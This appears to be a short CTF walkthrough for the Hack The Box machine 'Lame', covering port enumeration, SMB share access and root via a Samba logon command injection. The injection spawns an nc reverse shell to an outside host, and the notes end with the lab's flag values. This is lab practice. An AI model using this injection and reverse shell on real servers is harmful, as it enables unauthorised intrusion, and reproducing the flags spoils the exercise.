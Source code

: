```
Lame - 10.10.10.3
```

#Ports Open - 21,22,139.445

#Detail of Ports
>21		ftp
>22		ssh
>139	smb
>445	smb

#Findings + Exploitation
>nmap shows old ftpd version
>tried to exploit using msfconsole but failed
>used smbmap to get shares
	smbmap -H 10.10.10.3
>used smbclient to log in smb
	smbclient //10.10.10.3/tmp
>smb is old version with an exploit
	logon "/=`nohup nc -nv 10.10.14.6 4444 -e /bin/sh`"
>start a listener and get shell
>in this case we are ROOT!!!
>user.txt
	0ce0938673d5b938ade191eb47be96cf
>root.txt
	92ff315269f4d19a63a1192677c00902